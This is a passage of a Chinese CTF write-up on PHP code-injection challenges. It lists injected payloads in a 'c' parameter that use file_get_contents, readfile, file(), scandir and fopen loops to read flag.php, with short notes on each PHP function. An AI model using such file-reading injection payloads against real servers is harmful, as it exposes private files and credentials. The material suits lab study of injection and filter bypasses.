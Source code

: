 方法二：

```php
//通过函数去读取文件内容
c=echo file_get_contents('flag.php');   //该函数将文件读入字符串中
c=readfile('flag.php');
c=var_dump(file('flag.php'));
c=print_r(file('flag.php'));
c=var_export(file('flag.php'));
```

#### readfile()

> readfile() 函数读取一个文件，并写入到**输出缓冲**。
>
> 如果成功，该函数返回从文件中读入的字节数。如果失败，该函数返回 FALSE 并附带错误信息。您可以通过在函数名前面添加一个 '@' 来隐藏错误输出。

#### file()

> file() 函数把整个文件**读入一个数组**中。
>
> 数组中的每个元素都是文件中相应的一行，包括换行符在内。

#### var_export()

> **var_export()** 函数用于输出或返回一个变量，以字符串形式表示。
>
> **var_export()** 函数返回关于传递给该函数的变量的结构信息，它和 [var_dump()](https://www.runoob.com/php/php-var_dump-function.html) 类似，不同的是其返回的是一个合法的 PHP 代码。



方法三

```php
通过fopen去读取文件内容，这里介绍下函数
fread()
fgets()
fgetc()
fgetss()
fgetcsv()
gpassthru()
payload:
c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}//一行一行读取
c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}//一个一个字符读取
c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);var_dump($line);}

```





### web59

通过 `c=print_r(scandir('.'))` 找到flag.php在当前目录下

readfile() 、file_get_contents()被禁用了
